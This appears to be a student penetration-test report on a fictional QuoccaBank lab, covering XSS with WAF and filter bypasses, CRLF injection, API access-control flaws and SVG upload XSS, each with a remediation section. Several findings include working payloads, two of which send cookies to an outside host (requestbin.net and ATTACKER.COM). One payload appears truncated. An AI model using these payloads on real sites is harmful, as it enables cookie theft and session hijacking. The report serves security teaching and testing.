## P3 MEDIUM - Reflected XSS in Comment Filter

**Asset Domain:** science-today.quoccabank.com

**Severity Classification:** P3 - Medium Risk

### Vulnerability Details

A reflected XSS vulnerability exists in the comment filtering system for the `science-today.quoccabank.com` blog which can lead to stealing session cookies from QuoccaBank's admins.

### Proof of Concept / Steps to Reproduce

1. We can escape the header context of our reflected input with `</h3>` which showcases a clear lack of sanitisation of user input for HTML tags.
   

2. However, there exists some basic input sanitisation where certain words such as `script` or `img` are blacklisted.

   

3. We can evade the single pass filter by nesting blacklisted tags (such as `img` and `script`) or attributes (such as `onerror` and `onload`) together. Use the payload below to invoke arbitrary JavaScript code to display an alert to the user. The payload can be replaced with any arbitrary JavaScript which can lead us to leak client side secrets.

    ```html
    <scri<script>pt>alert(1)</sc</script>ript>
    ```

    

4. As a proof of concept, we leak the `query-flag` cookie by appending it to a redirect to an attacker controlled server then reporting the page (along with the comment filter parameter) using the payload below.

    ```html
    <imimgg src="x" oneonerrorrror="location.href='http://requestbin.net/r/du0jqnpb/?c='+btoa(document.cookie)"></imimgg>
    ```


### Impact

Similar to the impacts mentioned in **P4 HIGH - Stored XSS in Comment Section**, this vulnerability can be chained with the administration system that renders JavaScript on reported pages. This reflected XSS vulnerability can be used to leak sensitive information from privileged clients through capturing client side session tokens from viewers of the reported page. This can lead to an attacker conducting session hijacks with the stolen cookies. With a stolen session, attackers can impersonate that account and post content on behalf of the victim. This could lead to the victim's online persona being compromised by the actions of the attacker.


### Remediation

User input must be sanitised both from both the client side and the server side. Implement a whitelist to sanitise user input, ideally, through a well supported framework such as `jsoup` or library such as `DOMPurify`. Ensure that any user input is inserted into the DOM as text rather than raw HTML. Furthermore, it is recommended that a strict CSP is in place to stop the execution of untrusted JavaScript. To avoid session cookies being stolen, set cookies to be `HttpOnly` to mitigate QuoccaBank admins affected by this reflected XSS.

## P3 MEDIUM - Reflected XSS in Comment Filter behind WAF
**Asset Domain:** science-tomorrow.quoccabank.com via ctfproxy2.quoccabank.com

**Severity Classification:** P3 - Medium Risk

### Vulnerability Details

A reflected XSS vulnerability exists in the comment filtering system for the `science-tomorrow` blog which is almost identical to the reflected XSS vulnerability in `science-today.quoccabank.com`. 

### Proof of Concept / Steps to Reproduce

See the Proof of Concept for the reflected XSS vulnerability in `science-today`. 

1. Some adjustments must be made to contend with a new obstacle with the flawed "HackShield" WAF implemented at the `ctfproxy2` level.  The WAF uses simple term matching to block what it sees as malicious requests. These rules can be easily evaded by taking advantage of lesser known "malicious" Javascript constructs such as `eval(window.atob())` or `location.href`.

2. Otherwise, exploitation follows exactly as in `science-today` which allows us to leak the `query-flag` cookie by using the following payload and reporting the filtered page.

   ```html
   </img>
   ```


### Impact

Impacts of this reflected XSS vulnerability are detailed in **P3 MEDIUM - Reflected XSS in Comment Filter**. However, due to the implementation of the "HackShield" WAF at `ctfproxy2` level, the severity of this vulnerability is lower when compared to its counterpart as the WAF in place provides some security over user input.

### Remediation

Remediations to this vulnerability are the same as what was mentioned in **P3 MEDIUM - Reflected XSS in Comment Filter**. However, one major recommendation is the adoption of a commercial WAF in place of the current home-brew solution. Often, commercial WAFs are well-tested and developed with high levels of security in mind. Furthermore, usage of input sanitization libraries such as `jsoup` and `DOMPurify` ensures that XSS vulnerabilities are minimised.

## P3 MEDIUM - Incorrect Access Control as No API Key Authentication in `flagprinter` 

**Asset Domain:** flagprinter.quoccabank.com

**Severity Classification:** P3 - Medium Risk

### Vulnerability Details

The internal web application `flagprinter` does not check whether the supplied `ctfproxy2-key` is authorised to access the application. This oversight allows an attacker to view sensitive information.

This vulnerability seems to have been picked up by a previous audit, as the original API endpoint was disabled by an administrator. However, by creating another endpoint with the same origin, we can "reactivate" the service and retrieve sensitive information. 

### Proof of Concept / Steps to Reproduce

1. The `flagprinter` API is shown in the API list with a description that it has been disabled.

   

2. Enabling the `ctfproxy2` flagprinter API throws an error message that the flagprinter API is disabled due to security reasons.

   

3. However, by simply creating another endpoint with the same origin, we can view any sensitive information from the flagprinter API.
   
   
   

   Alternatively, we could forge requests to the `flagprinter` with an arbitrary username in the `ctfproxy2-user` header (and other appropriate headers to masquerade as the `ctfproxy2` server).

### Impact

Confidential secrets can be leaked from an internal development server. Depending on the data exposed through the API, the severity of this vulnerability could be much more severe. However, seeing that `flagprinter.quoccabank.com` does not reveal any sensitive information, it has been classified as P3 - Medium. However, if it was to contain access to sensitive information such as a database that is susceptible to SQLi attacks, clearly that this vulnerability would be rated much higher.

### Remediation

Enforce stricter auditing of services before they go live. In this specific case, check the authorization of the `ctfproxy2-key` is valid before responding to proxied requests. Since `ctfproxy2` is a wrapper around the original API endpoint, it is important to disable the actual API endpoint rather than the `ctfproxy2` API as the original API can be accessed through another `ctfproxy2` endpoint. Furthermore, ensure that any disabled APIs are no longer shown as part of the API list.

## P3 MEDIUM - Incorrect Access Control for flagprinter-v2

**Asset Domain:** flagprinter-v2.quoccabank.com via ctfproxy2.quoccabank.com

**Severity Classification:** P3 - Medium Risk

### Vulnerability Details

The internal web application `flagprinter-v2` can be re-enabled by deploying another API linked to the `flagprinter-v2.quoccabank.com` service.

### Proof of Concept / Steps to Reproduce

1. The API is not visible shown initially. To find the API route, go to `/list`. There is a search bar for user input. When intercepting the POST request, notice that there exists a hidden parameter called `internal` which is set to 0. Set params to `internal=1&name=` to reveal the hidden flagprinter-v2 api.

   

2. Accessing `https://ctfproxy2.quoccabank.com/api/flagprinter-v2` gives a 404 error with the message "API does not exist or you don't have permission to access it".

   

3. An attack vector is possibly reenabling the API similar to what was achieved with `flagprinter.quoccabank.com`. By chaining the vulnerability found in **P4 LOW - Verbose Error Messages for deploying API**, messing around the body json returns this error alert.

   

4. There appears to be a `dependsOn` param in the body. Giving an invalid input initially (i.e. a number) returns an alert that it accepts an array of strings.

   

5. It appears that the `dependsOn` parameter could possibly be an AWS attribute that can specify that the creation of a specific resource follows another. Thus, if we set `dependsOn` to `flagprinter-v2`, we can effectively re-create the resource and link it to our deployed API. Use the following payload to deploy our own endpoint which once activated, re-creates the `flagprinter-v2.quoccabank.com` resource.

   ```json
   {
       "name": "flag-v2",
       "origin": "flagprinter-v2.quoccabank.com",
       "description": "",
       "dependsOn": [
           "flagprinter-v2"
       ]
   }
   ```

6. Since our endpoint is named `flag-v2`, visit `https://ctfproxy2.quoccabank.com/enable/flag-v2` to re-enable `flagprinter-v2.quoccabank.com`. This should mean that the API service should be reactivated. Now visit `https://ctfproxy2.quoccabank.com/api/flagprinter-v2/` (since that API endpoint has the correct `ctfproxy2-key` connecting to `flagprinter-v2`) to be able to view the contents of the webpage.

### Impact

Similar to **P3 MEDIUM - Incorrect Access Control as No API Key Authentication in `flagprinter`**, confidential secrets can be leaked from an internal development server.


### Remediation

Similar to **P3 MEDIUM - Incorrect Access Control as No API Key Authentication in `flagprinter`**, enforce stricter auditing of services when disabled or when they go live. Ensure that API endpoints do not necessarily depend on other resources. 

##  P3 MEDIUM - Stored XSS through WAF Vulnerability in report.quoccabank.com

**Asset Domain:** report.quoccabank.com

**Severity Classification:** P3 - Medium Risk

### Vulnerability Details
The web application firewall (WAF) contains a race condition vulnerability that can be exploited so that some parts of the HTML are left unsanitised, exposing a stored XSS vulnerability in the report content. 

### Proof of Concept / Steps to Reproduce

1. The `robots.txt` route indicates that there is a `/view` page for the website. Through experimentation, it can be discovered that navigating to `/view/{sessionID}` allows one to view a submitted report, where the `sessionID` can be found through the cookie returned by the server upon sending a report. 
2. Send a report with title and content to have `<b>test</b>`. It can be seen, through viewing the report, that the content is potentially vulnerable to an XSS attack, whilst the title seems to be appropriately HTML encoded. 



3. It seems that the WAF, which can be found in the report's source code, strongly sanitise malicious tags and attributes, blocking a lot of malicious payloads. However, a vulnerability exists when trying to delete a malicious child element from the HTML content. The WAF iterates over the list of HTML child elements, calling the `sanitize()` function on each child within the loop, where unsafe child elements detected would be deleted from the list of child elements within the function. Due to list indexing, this means that the first element after an unsafe element will be skipped from the loop so they will remain unsantizied, leaving report viewers (such as admin) vulnerable to XSS attacks. 
4. As such, HTML can be inserted as the report content where the first child gets removed, but the next child element passes through the WAF and gets executed. For example, the following payload triggers arbitrary client side code execution as a proof of concept, where the script tag gets filtered out, but the following JavaScript is left unsanitised:

```html
<script></script>
<svg/onload=alert(1)>
```





### Impact

As demonstrated above, the vulnerability with the WAF allows for arbitrary client side code execution. However, this vulnerability alone is not sufficient in allowing an attacker to steal another user's cookies, since the cookies are HTTP-only (please refer to the CRLF injection vulnerability outlined in this document).

### Remediation

Regarding the WAF vulnerability, the most effective method of mitigating XSS is to disallow HTML user input in the first place, either HTML encoding user input or using a text parser if text formatting or image insertions are needed. Although using a `filter` function to sanitise children of the HTML report content, instead of removing elements whilst iterating over their containing array, would fix the WAF vulnerability. The safest way of sanitising user input would be to use popular trusted frameworks designed for HTML sanitisation, such as DOMPurify. These frameworks would most likely contain fewer vulnerabilities compared to writing a WAF yourself.


## P3 MEDIUM - CRLF vulnerability in report.quoccabank.com

**Asset Domain:** report.quoccabank.com

**Severity Classification:** P3 - Medium

### Vulnerability Details

Report titles are vulnerable to Carriage Return Line Feed (CRLF) injections, where certain HTTP headers can be pushed into the HTTP body and be rendered as HTML. This means that JavaScript can access HTTP-only cookies which would normally be unable to be accessed through JavaScript.

### Proof of Concept / Steps to Reproduce



Submitting a report and examining the server response on accessing the report view page, it can be noted above that my report title "Title" can be found in the HTTP response header when viewing the report, under the x-meta header. HTTP response header splitting can be used to "push" the HTTP-only cookie found in the server response header into the HTML body. With the same report content, intercepting sending a report and simply adding two url-encoded carriage return characters (\r\n) `%0D%0A%0D%0A` to the end of the report's title using Burp Suite, it can be seen that some extra HTML text can be found at the top of the page, containing the cookie (below). 



### Impact

The CRLF injection vulnerability causes cookies sent from the server to not be set properly, effectively rendering the HTTP-only cookie setting useless. When visiting a compromised site (such as through chaining this vulnerability with the XSS vulnerability in report.quoccabank.com), this vulnerability allows HTTP-only cookies to be picked up using JavaScript by using regex to search for them in the HTML body, which can then be forwarded to an attacker. An attacker may then be able to impersonate them and access reports they submitted, since report sessionIDs are stored in cookies. An example payload can be achieved through appending two carriage return characters to the report title, and using the following report content:

```html
<script></script>
<svg/onload=fetch('ATTACKER.COM/?q='+document.documentElement.outerText.match(/flag=(.*?);/)[1])/>
```

### Remediation

The CRLF injection vulnerability can also be remediated by sanitising report titles (stripping new line characters from `title` before being sent as an HTTP header) or properly encoded in the HTTP response header output. However, if its inclusion in the x-meta HTTP header is unnecessary, then it would be better to simply remove it from the header instead.

## P3 MEDIUM - Stored XSS in upload profile picture

**Asset Domain:** profile.quoccabank.com

**Severity Classification:** P3 - Medium

### Vulnerability Details

Cross site scripting can be triggered by accessing the url corresponding to an uploaded svg containing a malicious script. 

### Proof of Concept / Steps to Reproduce

Upload the following svg file to profile.quoccabank.com:

```xml
<?xml version="1.0" standalone="no"?>
<!DOCTYPE svg PUBLIC "-//W3C//DTD SVG 1.1//EN" "http://www.w3.org/Graphics/SVG/1.1/DTD/svg11.dtd">
<svg version="1.1" baseProfile="full" xmlns="http://www.w3.org/2000/svg">
 <script>alert(1)</script>
</svg>
```

As a proof of concept, accessing the URL of the uploaded image (at `/profileimage?{profileID}`), the alert script gets executed shown below. The JavaScript will also be executed for any user accessing this link.



### Impact

As demonstrated above with a proof of concept, this vulnerability enables arbitrary client side code execution. This means an attacker may be able to steal user cookies and hijack sessions and other sensitive data. 

### Remediation

Prohibiting the upload of svg files prevents similar attacks from happening. However, if this is not possible, updating the Content Security Policy (CSP) to a value like `Content-Security-Policy: script-src 'none'` will block script execution for malicious SVGs. Another method is to purify or convert uploaded SVGs to a universal format, such as a jpg or png. Furthermore, from inspecting the request for the image, it can be seen that the server returns the image as an `image/svg+xml`. Changing the MIME type to something like "application/octet-string" forces browsers to download the SVG content rather than rendering it inline, for example, and can prevent similar XSS attacks from occurring.



